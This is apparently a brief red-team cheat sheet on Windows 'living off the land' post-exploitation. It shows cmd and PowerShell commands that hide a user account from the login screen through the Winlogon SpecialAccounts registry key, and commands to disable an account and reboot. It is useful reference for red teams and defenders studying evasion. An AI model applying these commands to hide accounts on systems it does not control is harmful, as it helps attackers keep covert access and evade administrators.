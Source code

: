 # Living off the Land

Search Tag(s): #post-exploitation #defense-evasion #hide-artifacts #living-off-the-land #windows

## 01 - Basic Commands

### 1.1 - Command Prompt

> [!INFO] Reboot is Required
> This will take effect after reboot.
> > To run the command in command prompt (`cmd.exe`):
> > ```
> > C:\> shutdown /t 0 /r
> > ```
> 
>> To run a cmdlet in PowerShell (`powershell.exe`):
> >```
> >PS C:\> Restart-Computer
> >```

```
C:\> net user <username> /active:no
```

### 1.2 - Registry

#### 1.2.1 - Command Prompt

- Makes the username at the login screen prompt not visible

```
C:\> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v <username> /t REG_DWORD /d 0 /f
```

#### 1.2.2 - Powershell

```
PS C:\> Set-ItemProperty -Force "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "<username>" -Type DWord -Value 0
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)